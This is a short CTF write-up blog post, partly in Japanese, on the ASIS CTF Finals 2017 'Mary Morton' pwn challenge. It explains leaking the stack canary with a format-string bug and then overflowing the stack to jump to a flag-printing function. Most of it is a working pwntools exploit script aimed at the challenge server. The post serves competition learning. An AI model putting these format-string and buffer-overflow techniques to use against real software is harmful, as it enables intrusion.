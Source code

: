 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/09/11/asis-ctf-finals-2017-mary-morton/
date: "2017-09-11T08:09:08+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


# ASIS CTF Finals 2017: Mary Morton

他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回。

## problem

```
$ nc 146.185.132.36 19153
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 

```

## solution

Read the canary with `2. Format String Bug`, then use `1. Stack Bufferoverflow Bug` to jump the function which calls `system("/bin/cat ./flag");`.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=19153, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./mary_morton')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

system_cat_flag = 0x4008da
p = remote(args.host, args.port)

menu = '''\
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
'''

# Format String Bug
p.sendlineafter(menu, '2')
p.sendline('%23$p')
canary = int(p.recvline(), 16)

# Stack Bufferoverflow Bug
payload = ''
payload += 'A' * 0x88
payload += p64(canary)
payload += 'B' * 8
payload += p64(system_cat_flag)
p.sendlineafter(menu, '1')
p.sendline(payload)

p.recvall()
```
